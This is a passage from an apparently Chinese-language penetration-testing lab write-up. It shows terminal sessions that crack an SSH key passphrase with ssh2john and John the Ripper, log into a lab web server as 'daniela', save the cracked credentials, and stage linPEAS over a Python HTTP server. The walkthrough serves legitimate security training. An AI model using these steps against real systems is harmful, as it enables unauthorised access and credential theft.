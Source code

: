 #### 3. 使用 SSH 私鑰嘗試登入
```
┌──(chw㉿CHW)-[~/beyond]
└─$ echo "PRIVATE_KEY_CONTENT" > id_rsa
┌──(chw㉿CHW)-[~/beyond]
└─$  chmod 600 id_rsa          
┌──(chw㉿CHW)-[~/beyond]
└─$ ssh -i id_rsa daniela@192.168.117.244

The authenticity of host '192.168.117.244 (192.168.117.244)' can't be established.
ED25519 key fingerprint is SHA256:vhxi+CCQgvUHPEgu5nTN85QQZihXqJCE34zq/OU48VM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.117.244' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
```
> SSH 私鑰受到密碼保護，需要破解密碼

#### 4. 破解 SSH 私鑰密碼
```
┌──(chw㉿CHW)-[~/beyond]
└─$ ssh2john id_rsa > ssh.hash
                       
┌──(chw㉿CHW)-[~/beyond]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:35 0.01% (ETA: 2025-03-22 23:14) 0g/s 35.26p/s 35.26c/s 35.26C/s dragons..poohbear1
tequieromucho    (id_rsa)     
1g 0:00:00:39 DONE (2025-03-17 07:05) 0.02502g/s 35.23p/s 35.23c/s 35.23C/s jesse..tagged
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                   
```
SSH 登入：
```
┌──(chw㉿CHW)-[~/beyond]
└─$ ssh -i id_rsa daniela@192.168.117.244                  
Enter passphrase for key 'id_rsa': tequieromucho
...
Last login: Wed Nov  2 09:57:32 2022 from 192.168.118.5
daniela@websrv1:~$ whoami
daniela
```
> 成功滲透第一台機器

>[!Note]
>記錄取得的帳號資訊\
> `echo "daniela: tequieromucho" >> creds.txt`
### A Link to the Past
目前已取得 `WEBSRV1` 的 `daniela` 使用者權限\
接著使用 linPEAS 收集資訊
#### 1. 使用 linPEAS 進行本機資訊收集
```
┌──(chw㉿CHW)-[~/beyond/websrv1]
└─$ cp /usr/share/peass/linpeas/linpeas.sh .
                                                                                                               
┌──(chw㉿CHW)-[~/beyond/websrv1]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```